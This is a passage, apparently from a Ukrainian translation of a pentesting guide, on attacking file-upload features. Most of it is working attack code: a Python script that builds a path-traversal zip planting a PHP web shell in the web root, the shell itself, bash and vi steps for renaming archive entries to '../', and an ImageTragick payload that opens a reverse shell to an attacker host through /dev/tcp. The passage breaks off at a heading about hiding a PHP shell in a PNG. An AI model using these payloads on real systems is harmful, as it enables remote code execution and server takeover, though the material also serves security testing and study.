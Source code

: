 Нижче наведено приклад коду Python, який використовується для створення шкідливого zip-файлу:
```python
#!/usr/bin/python
import zipfile
from io import BytesIO

def create_zip():
f = BytesIO()
z = zipfile.ZipFile(f, 'w', zipfile.ZIP_DEFLATED)
z.writestr('../../../../../var/www/html/webserver/shell.php', '<?php echo system($_REQUEST["cmd"]); ?>')
z.writestr('otherfile.xml', 'Content of the file')
z.close()
zip = open('poc.zip','wb')
zip.write(f.getvalue())
zip.close()

create_zip()
```
**Зловживання стисненням для спрейінгу файлів**

Для отримання додаткової інформації **перегляньте оригінальну публікацію в**: [https://blog.silentsignal.eu/2014/01/31/file-upload-unzip/](https://blog.silentsignal.eu/2014/01/31/file-upload-unzip/)

1.  **Створення PHP Shell**: PHP код написаний для виконання команд, переданих через змінну `$_REQUEST`.

```php
<?php
if(isset($_REQUEST['cmd'])){
$cmd = ($_REQUEST['cmd']);
system($cmd);
}?>
```
2.  **Спрайінг файлів та створення стиснутого файлу**: Створюється кілька файлів, і збирається zip-архів, що містить ці файли.

```bash
root@s2crew:/tmp# for i in `seq 1 10`;do FILE=$FILE"xxA"; cp simple-backdoor.php $FILE"cmd.php";done
root@s2crew:/tmp# zip cmd.zip xx*.php
```
3.  **Модифікація за допомогою Hex Editor або vi**: Імена файлів всередині zip змінюються за допомогою vi або hex редактора, змінюючи "xxA" на "../" для переходу між каталогами.

```bash
:set modifiable
:%s/xxA/..\//g
:x!
```

## ImageTragic

Завантажте цей вміст з розширенням зображення, щоб експлуатувати вразливість **(ImageMagick , 7.0.1-1)** (з [експлойту](https://www.exploit-db.com/exploits/39767))
```
push graphic-context
viewbox 0 0 640 480
fill 'url(https://127.0.0.1/test.jpg"|bash -i >& /dev/tcp/attacker-ip/attacker-port 0>&1|touch "hello)'
pop graphic-context
```
## Вбудовування PHP Shell у PNG
